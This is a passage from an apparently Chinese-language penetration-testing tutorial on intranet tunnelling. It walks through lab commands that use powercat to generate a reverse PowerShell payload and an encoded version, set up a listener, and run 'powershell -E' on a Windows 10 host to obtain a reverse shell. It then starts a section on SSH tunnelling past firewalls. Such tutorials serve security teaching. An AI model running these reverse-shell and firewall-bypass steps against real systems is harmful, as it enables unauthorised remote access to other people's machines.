 ![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tN1P3icOUiaDGZTRdRBPlCkibKicp9icD69L5gW0hjpDNcBEy4jQiat7iaxbzQ/640?wx_fmt=png)

  

如果想生成一个反弹 Powershell 的 Payload 那么就用下面的命令生成：

```
powercat -l -p 8000 -ep -v -g >> shell.ps1

```

用 Powercat 也可以直接生成经过编码的 Payload。

在 Win7 中执行命令，即可得到编码后的 Pyload：（-g 生成 payload）（-ge 生成经过编码的 payload，可以直接使用 powershell -e 进行反弹 shell）

```
powercat -c 192.168.2.13（win7） -p 9999 -ep -ge > 1.txt

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tYWBLWntiaUEGicov4ANChVzSNHRzheaNASFECTibkenG0Drj3tTr4P6FA/640?wx_fmt=png)

  

然后再 Win7 上监听 9999 端口等待目标连接：

```
powercat -l -p 9999 -v

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3t8la3px23pTTwWKgId06r3QyZTIb4060GoWmnqibvtcsCoWVmKp4jt2Q/640?wx_fmt=png)

  

最后在 Win10 上执行命令：

```
powershell -E 这里是刚刚生成的加密密文

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tyZbOpLTQZVWUdNaHU4uR9aaTUUc7Npg5laQ29vY5SKAhD5jFr46AWw/640?wx_fmt=png)

  

3.4 应用层隧道技术
-----------

应用层的隧道通信技术主要利用应用软件提供的端口来发送数据。常用的隧道协议有 SSH、HTTP/HTTPS 和 DNS。

#### 4.1：SSH 协议

在内中，几乎所有的 Linux/UNIX 服务器和网络设备都支持 SSH 协议。在一般情况下，SSH 协议是被允许通过防火墙和边界设备的，所以经常会被攻击者所利用。同时，SSH 协议的传输过程是加密的，所以我们很难区分合法的 SSH 会话和攻击者利用其它网络建立的隧道。攻击者使用 SSH 端口隧道突破防火墙的限制后，能够建立一些之前无法建立的 TCP 隧道。

一个普通的 SSH 命令如下：

```
ssh root@192.168.2.12

```
